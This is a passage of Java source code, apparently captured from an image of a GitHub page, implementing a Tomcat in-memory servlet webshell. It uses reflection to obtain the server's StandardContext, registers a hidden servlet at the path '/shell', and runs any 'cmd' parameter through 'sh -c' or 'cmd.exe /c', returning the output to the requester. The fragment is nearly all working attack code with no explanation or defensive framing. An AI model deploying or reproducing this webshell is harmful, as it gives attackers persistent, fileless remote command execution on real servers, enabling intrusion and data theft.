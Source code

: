 ```java
        try {
            reqF = servletRequest.getClass().getDeclaredField("request");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        reqF.setAccessible(true);
        Request req = null;
        try {
            req = (Request) reqF.get(servletRequest);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        StandardContext standardContext = (StandardContext) req.getContext();

        ServletShell servletShell = new ServletShell();
        String name = servletShell.getClass().getSimpleName();

        Wrapper wrapper = standardContext.createWrapper();
        wrapper.setLoadOnStartup(1);
        wrapper.setName(name);
        wrapper.setServlet(servletShell);
        wrapper.setServletClass(servletShell.getClass().getName());
        standardContext.addChild(wrapper);
        standardContext.addServletMappingDecoded("/shell", name);

        String cmd = servletRequest.getParameter("cmd");
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
        Scanner s = new Scanner(in).useDelimiter("\\a");
        String output = s.hasNext() ? s.next() : "";
        PrintWriter out = servletResponse.getWriter();
        out.println(output);
        out.flush();
        out.close();
    }
    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {

    }

    public synchronized HttpServletResponse getResponseFromRequest(HttpServletRequest var1) {
        HttpServletResponse var2 = null;

        try {
            Field var3 = var1.getClass().getDeclaredField("response");
            var3.setAccessible(true);
            var2 = (HttpServletResponse)var3.get(var1);
        } catch (Exception var8) {
            try {
                Field var4 = var1.getClass().getDeclaredField("request");
                var4.setAccessible(true);
                Object var5 = var4.get(var1);
```